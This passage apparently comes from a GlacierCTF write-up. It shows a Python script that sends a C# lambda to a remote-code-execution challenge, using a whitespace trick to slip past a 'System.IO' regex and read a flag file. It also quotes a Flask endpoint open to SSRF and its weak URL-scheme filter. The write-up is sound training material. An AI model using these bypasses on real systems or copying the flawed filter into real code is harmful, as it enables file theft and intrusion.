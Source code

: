 The regex looks for the exact match of `"System.IO"`. Since we know that the grammars on which common programming languages are built typically allow us to insert any mount of whitespaces between keywords, we can bypass this regex just by inserting a whitespace between a keyword (`System` or `IO`) and the dot which separates them.
```py
#!/usr/bin/env python3
import requests

base = 'https://rce-as-a-service-2.ctf.glacierctf.com'

def send_rce(data, code):
    endpoint = base + '/rce'
    payload = { 'Data': data, 'Query': code}
    res = requests.post(endpoint, json=payload)
    return res.text

print(send_rce(["/flag.txt"], 
    '(data) => data.Select((d) => System. IO.File.ReadLines(d))'))
```

## Glacier Top News
A Flask API with a Vue front-end is given us. The code is available [here](/downloadables/glacier_glacier_top_news.zip). Note that this challenge is running on Python 2. There are a few routes that are weirdly written, but that is probably due to Vue being used for the front-end.

Then, there is an endpoint that smells of SSRF really badly:
```py
@app.route('/api/get_resource', methods=['POST'])
def get_resource():
    url = request.json['url']

    if(Filter.isBadUrl(url)):
        return 'Illegal Url Scheme provided', 500

    content = urlopen(url)
    return content.read(), 200
```

This seems to use the Filter class, which is defined in `utils.py`:

```py
class Filter:
    BAD_URL_SCHEMES = ['file', 'ftp', 'local_file']
    BAD_HOSTNAMES = ["google", "twitter", "githubusercontent", "microsoft"]

    @staticmethod
    def isBadUrl(url):
        return Filter.bad_schema(url)

    @staticmethod
    def bad_schema(url):
        scheme = url.split(':')[0]
        return scheme.lower() in Filter.BAD_URL_SCHEMES

    @staticmethod
    def bad_urls(url):
        for hostname in Filter.BAD_HOSTNAMES:
            if hostname in url:
                return True

        return False
```
